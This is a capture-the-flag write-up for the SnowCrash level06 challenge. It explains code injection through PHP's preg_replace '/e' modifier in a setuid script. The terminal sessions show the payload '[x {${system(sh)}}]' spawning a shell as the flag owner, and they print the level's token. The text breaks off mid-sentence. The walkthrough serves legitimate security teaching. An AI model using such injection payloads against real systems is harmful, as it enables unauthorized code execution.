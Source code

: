 ### Exploit

This level, we're going to look at the potential vunerabilities of a PHP script. More specifically, that of the function [preg_replace](http://www.madirish.net/402). We are given two files to work with: a PHP script and an executable binary. Both appear to be rigourously the same. Let's break them down.

First off, the script takes two parameters which are called by function __x__. This function basically retrieves the content of the first argument via [file_get_contents](https://www.php.net/manual/en/function.file-get-contents.php) and prints it. So far, nothing too complicated. The next line is far more interesting.
> $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);

Indeed, the '/e' modifier actually allows us to evaluate the second argument as a PHP expression. This means we could create a file whose content is to be interpreted and then executed by the script. For example:
```
    level06@SnowCrash:~$ echo "`ls -lah`" >/tmp/test
    level06@SnowCrash:~$ ./level06 /tmp/test
    total 24K
    dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
    d--x--x--x  1 root    users    340 Aug 30  2015 ..
    -r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
    -r-x------  1 level06 level06 3.5K Aug 30  2015 .bashrc
    -rwsr-x---+ 1 flag06  level06 7.4K Aug 30  2015 level06
    -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
    -r-x------  1 level06 level06  675 Apr  3  2012 .profile
```
Unfortunately, this won't work:
```
    level06@SnowCrash:~$ echo "`getflag`" >/tmp/test
    level06@SnowCrash:~$ ./level06 /tmp/test
    Check flag.Here is your token :
    Nope there is no token here for you sorry. Try again :)
```
We need to trick the script into thinking it executes `getflag` as `flag06`. More shell spawning anyone?

```
    level06@SnowCrash:~$ echo '[x {${system(sh)}}]' >/tmp/getflag
    level06@SnowCrash:~$ ./level06 /tmp/getflag
    PHP Notice:  Use of undefined constant sh - assumed 'sh' in /home/user/level06/level06.php(4) : regexp code on line 1
    getflag
    Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

This works because we are essentically...
